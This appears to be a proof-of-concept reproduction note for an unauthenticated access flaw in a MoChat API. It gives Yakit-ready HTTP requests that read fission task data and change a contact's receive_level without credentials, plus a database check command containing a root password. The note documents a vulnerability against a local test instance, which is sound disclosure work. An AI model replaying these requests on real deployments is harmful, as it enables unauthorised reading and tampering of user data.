



# MC-VULN-006 — Yakit packets

- Target: `127.0.0.1:9501` (MoChat API)
- Auth: none
- Seed data: `union_id=union_poc_test`, `fission_id=1`

Paste each block into Yakit as-is.

## 0. Sanity check

```bash
curl -sS 'http://127.0.0.1:9501/operation/workFission/taskData?union_id=union_poc_test&fission_id=1'
```

## 1. Unauth read

Expect `gift_url` in the JSON.

```http
GET /operation/workFission/taskData?union_id=union_poc_test&fission_id=1 HTTP/1.1
Host: 127.0.0.1:9501
Accept: application/json
Connection: close


```



## 2. Unauth write

Expect `code=200`; DB `receive_level` becomes `5`.

```http
PUT /operation/workFission/receive HTTP/1.1
Host: 127.0.0.1:9501
Content-Type: application/json
Accept: application/json
Content-Length: 42
Connection: close

{"union_id":"union_poc_test","level":5}
```



## 3. DB check

```bash
docker exec mochat-mysql mysql -uroot -pmochat123 -N mochat \
  -e "SELECT union_id,receive_level FROM mc_work_fission_contact WHERE union_id='union_poc_test';"
```


